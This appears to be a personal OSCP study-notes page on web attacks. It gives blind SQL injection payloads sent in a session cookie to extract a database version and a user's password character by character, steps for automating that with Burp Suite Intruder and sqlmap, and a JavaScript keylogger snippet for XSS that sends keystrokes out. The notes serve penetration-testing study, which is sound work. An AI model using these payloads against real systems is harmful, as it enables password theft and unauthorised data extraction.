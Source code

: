 **SQL injection can not just be username,password but cookies or anything that we can injection information**
![image](https://github.com/nurijeon/OSCP/assets/14031269/3caf142b-861e-4765-9f9c-5a69d4788465)

**Blind SQL Injection** - substring
![image](https://github.com/nurijeon/OSCP/assets/14031269/8bf7318a-fca3-4e57-a1fb-7bfd8ab841ad)
```bash
# substring comparison
Cookie: session=' or substring('a', 1, 1) = 'a'#

# using substring, guess the version number
# we need to use () for select version() because we want it to be resolved first
Cookie: session=' or substring((select version()), 1, 1) = '8'#
Cookie: session=' or substring((select version()), 1, 2) = '8.'#
Cookie: session=' or substring((select version()), 1, 3) = '8.0'#

# Using substring, guess the password but this will take forever. So we can handle this from intruder(burpsuite)
Cookie: session=' or substring((select password from injection0x02 where username = 'jessamy'), 1, 1) = '8'#
```

**Blind SQL Injection** - substring && burpsuite
1. We can guess each letter but if we want to automate this process, send this to intruder
![image](https://github.com/nurijeon/OSCP/assets/14031269/a83e0ae8-1286-49c9-b620-f500791a07ef)
2. Add the character we want to fuzz
![image](https://github.com/nurijeon/OSCP/assets/14031269/82f2ae59-fac2-495b-8f52-c12f3b489731)
3. Add a-z 0-9 on payload and start attack
![image](https://github.com/nurijeon/OSCP/assets/14031269/3e6c4502-fa3c-4d62-b49b-3f38c5ff8542)
4. Keep changing the substring length and fuzzing last letter
![image](https://github.com/nurijeon/OSCP/assets/14031269/c8f94ce5-e507-49ed-bef4-77d80b2d0247)

**Blind SQL Injection** - sqlmap
1. Copy and save the request
2. run sqlmap
```bash
# for cookie, we have to set level to 2
sqlmap -r req.txt --level=2
```

### XSS
**Reflected**
The script you want to inject gets returned as a response

**common injection** - Key stroke
```bash
- use fetchapi to send user keyboard input
function logkey(event){some_api(event.key)}
document.addEventListener('keydown', logkey)
```
